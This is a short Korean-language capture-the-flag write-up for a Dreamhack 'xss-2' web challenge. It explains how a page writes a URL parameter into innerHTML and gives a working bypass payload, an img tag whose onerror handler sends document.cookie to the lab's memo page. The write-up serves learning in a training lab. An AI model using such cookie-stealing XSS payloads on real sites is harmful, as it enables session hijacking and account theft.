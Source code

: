 # xss-2
이 문제는 [이전 문제](https://github.com/iamjames77/Dreamhack/blob/main/Document/Level%201/28.md)와 유사한 구조를 갖는다.

```python
@app.route("/vuln")
def vuln():
    return render_template("vuln.html")
```
그러나 xss-1에선 `param`을 return 햇다면 이 문제에서는 `vuln.html`을 return 한다.

```html
<div id='vuln'></div>
<script>
    var x=new URLSearchParams(location.search); 
    document.getElementById('vuln').innerHTML = x.get('param');
</script>
```
html을 보면 innerHTML을 활용하여 param을 획득하여 표시한다.

innerHTML은 <script></script>를 실행시키지 않는다. 그러나 <img src='x' onerror = `자바스크립트 코드`>를 사용하면 우회가 가능하다 따라서 <img src= 'x' onerror = 'location.href = "http://127.0.0.1:8000/memo?memo=hello"+document.cookie'>를 사용하면 flag를 얻을 수 있다.